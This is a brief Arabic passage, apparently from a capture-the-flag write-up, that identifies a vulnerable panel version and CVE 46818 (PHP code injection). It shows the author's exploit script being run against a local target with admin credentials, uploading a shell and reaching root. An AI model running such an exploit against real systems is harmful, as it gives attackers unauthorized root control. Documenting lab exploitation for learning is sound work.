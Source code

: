 ![ispc_version](../assets/img/nocturnal_ispc_version.png)
إذا بحثنا في قوقل عن هذا الإصدار راح نحصل CVE برقم 46818. أنا كتبت سكربت يُأتمت هذه الثغرة (الثغرة عبارة عن حقن كود php) [شيك عليها هنا](https://vulnerk0.github.io/posts/CVE-46818/):
```bash
python exploit.py 
[!] Usage: python exploit.py <URL> <USERNAME> <PASSWORD>

proxychains -q python exploit.py http://127.0.0.1:8080 admin <REDACTED>

[!] Checking connection to the target: http://127.0.0.1:8080/
[+] Target is reachable, logging in with the provided creds.
[+] Logged in using the provided credentials!
[!] Grabbed the csrf key and id
[!] Launching shell!
[#] The shell has been uploaded, prompting you now...

Shell# whoami
whoami
root
```
##
